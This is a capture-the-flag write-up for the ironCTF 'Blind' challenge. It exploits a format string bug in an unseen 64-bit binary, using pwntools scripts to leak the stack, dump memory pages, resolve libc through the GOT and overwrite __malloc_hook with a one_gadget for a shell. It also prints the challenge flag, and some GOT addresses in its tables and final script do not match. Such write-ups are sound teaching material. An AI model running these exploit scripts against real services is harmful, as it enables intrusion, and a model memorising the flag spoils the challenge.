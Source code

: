 ![[desc.png]]

In this challenge, we were not given a copy of the executable, hence the title "Blind," which means we will be doing blind binary exploitation.

After connecting to the service using `netcat`, we are greeted with the following prompt:
![[Screenshot_20241014_134904.png]]

Any input entered is echoed back as output:
![[Screenshot_20241014_134952.png]]

Since our input is being echoed back at us, I suspected the program might be vulnerable to a format string attack, and sure enough, that was the case. From the leaked value, it's also obvious that the binary is a 64-bit executable.
![[Screenshot_20241014_135054.png]]

This is good news because we can perform arbitrary reads and writes using this vulnerability. We can also leak the values in stack using this vulnerability, which could potentially give us more insight into the memory layout of the program.

To start, I wrote a Python script using `pwntools` to leak stack values and determine their respective offsets.
```python
def leak_stack(io, offset):
	payload = f"AA%{offset}$lpBB"
	send_input(io, payload)

	io.recvuntil(b'AA')
	leak = io.recvuntil(b'BB')[:-2].decode()
	
	log.info(f"Leaked at offset {offset}: {leak}")
	return leak

io = conn()

i = 1
while i < 256:
    try:
        leak_stack(io, i)
        i += 1
    except EOFError as e:
        io.close()
        io = conn()
```

Using this code, I discovered something interesting:
![[Screenshot_20241014_140043.png]]

The values leaked at offsets 155 and 157 seem to refer to code in executable memory. This also indicates that there is a memory page starting at `0x400000`, which suggests that the binary is not PIE (Position Independent Executable) because `0x400000` is a common base address for 64-bit non-PIE executables. To gather more information, I decided to leak the memory page, which is possible with the format string vulnerability.

Before proceeding, I wanted to check for other memory pages to make sure nothing was missed. I used the following code:
```python
 def read_at(io, address):
	payload = b'%7$s____'
	payload += p64(address)
	send_input(io, payload)

	leak = io.recvuntil(b'____')[:-4] + b'\x00'

	log.info(f"Leaked at {hex(address)}: {leak}")
	return leak


def check_segment(address):
	log.info(f"Checking segment: {hex(address)}")
	io = conn()
	try:
		read_at(io, address)
		io.close()
		log.success(f"Memory segment {hex(address)} exists!")
		return True
	except EOFError:
		io.close()
		log.warn(f"Memory segment {hex(address)} does not exist.")
		return False
```

And I got the following results:
![[Screenshot_20241014_141212.png]]

I then dumped all the contents of each memory page using the following code and used multithreading to dump multiple pages at the same time to speed up the process:
```python
def leak_segment(address, size, output_file):
	log.info(f"Leaking memory segment: {hex(address)}")
	cur_address = address
	end_address = address + size

	data = b''

	io = conn()
	while cur_address < end_address:
		try:
			chunk = read_at(io, cur_address)
			cur_address += len(chunk)
			data += chunk
		except EOFError:
			io.close()
			io = conn()

	with open(output_file, "wb") as FILE:
		FILE.write(data)

	log.success(f"Wrote memory segment, {hex(address)}, to {output_file}.")
	return data


MEMORY_SEGMENTS = [
	0x3fc000,
	0x3fe000,
	0x400000,
	0x600000,       
	0x601000,       
]

import concurrent.futures

def leak_segment_wrapper(segment):
	output_file = hex(segment) + ".dump"
	leak_segment(segment, 0x1000, output_file)

with concurrent.futures.ThreadPoolExecutor() as executor:
	futures = [executor.submit(leak_segment_wrapper, segment) for segment in MEMORY_SEGMENTS]

	for future in concurrent.futures.as_completed(futures):
		try:
			result = future.result()
		except Exception as e:
			print(f"An error occurred: {e}")
```

At this point, I have a copy of all the memory pages we discovered earlier:
![[Screenshot_20241014_141604.png]]

Now that we have a copy of the executable page, `0x400000.dump`, I analyzed it using Cutter, and sure enough, it contains the code for the main loop of the program:
![[Screenshot_20241014_143449.png]]

I suspected that this is the main loop because we can see the string of the prompt being used here at `0x004006ee`, and there is a `jmp` instruction at `0x00400751` at loops back to `0x00400713` without any checks or condition.

Using this, we can carefully analyze the program and basically "guess" which libc functions are being called here, and I came up with the following:
![[Screenshot_20241014_144024.png]]

We can then check which of the PLT entries these point to by looking at the address pointed to by the call function:
![[Screenshot_20241014_144209.png]]

This then gives us the address of the GOT entries for each of these functions, resulting to the following mapping:

| Function | PLT Entry  | GOT Entry  |
| -------- | ---------- | ---------- |
| `puts`   | `0x400550` | `0x600fc8` |
| `printf` | `0x400580` | `0x600fe0` |
| `read`   | `0x400580` | `0x600fe8` |
We can then use the dump we got from the page, `0x600000` - `0x601000`, to leak the libc addresses of these functions:
![[Screenshot_20241014_145210.png]]

| Function | PLT Entry  | GOT Entry  | libc Address     |
| -------- | ---------- | ---------- | ---------------- |
| `puts`   | `0x400550` | `0x600fc8` | `0x7fa10d1d5970` |
| `printf` | `0x400580` | `0x600fe0` | `0x7fa10d1b9e40` |
| `read`   | `0x400580` | `0x600fe8` | `0x7fa10d265020` |

Using these addresses, we can use a [libc database](https://libc.rip/) to finally determine the libc version that the binary is using:
![[Screenshot_20241014_145547.png]]

In my case, I decided to use the first result and it worked, but if it happened that it didn't work, I could easily just download the second one.

So at this point, we now know the libc version used by the binary as well as the address of the GOT entries. Now it's time for the final exploitation phase.

Since we have a format string vulnerability that alllows us to write any value to an arbitrary address, we essentially have what we call a [Write What Where 2 Exec](https://book.hacktricks.xyz/binary-exploitation/arbitrary-write-2-exec) or "WWW2Exec" in short. In my case, I used [Malloc Hook](https://book.hacktricks.xyz/binary-exploitation/arbitrary-write-2-exec/aw2exec-__malloc_hook) to get a shell since the libc version is pre-2.34, not to mention, the easiest. In short, for this attack, we have to overwrite the variable `__malloc_hook` found in libc with the address of a [One Gadget](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/ret2lib/one-gadget) 

So in summary, our final exploit will look like this:
1. Compute the libc address by leaking the GOT entry of any of the functions leaked above, in my case I used the GOT entry `printf()`
2. Compute the address of the `__malloc_hook` and the `one_gadget`
3. Perform a format string attack to write the address of the `one_gadget` at the address of the `__malloc_hook`
4. Send input, `%10000$c` to trigger malloc using printf.
5. Get the flag using the shell.

In my case, the final exploit code looked like this:
```python
io = conn()
PRINTF_FUNC = u64(read_at(io, 0x600fd0).ljust(8, b'\x00'))

libc.address = PRINTF_FUNC - libc.sym['printf']
	
log.success(f"Leaked libc address: {hex(libc.address)}")

MALLOC_HOOK = libc.sym["__malloc_hook"]
ONE_GADGET = libc.address + 0x10a2fc

writes = {
	MALLOC_HOOK: ONE_GADGET
}

payload = fmtstr_payload(6, writes)
send_input(io, payload)

send_input(io, "%10000$c")

io.interactive()
```

![[Screenshot_20241014_151836.png]]

Flag: `ironCTF{Haha_You_Found_me_b1ind}`
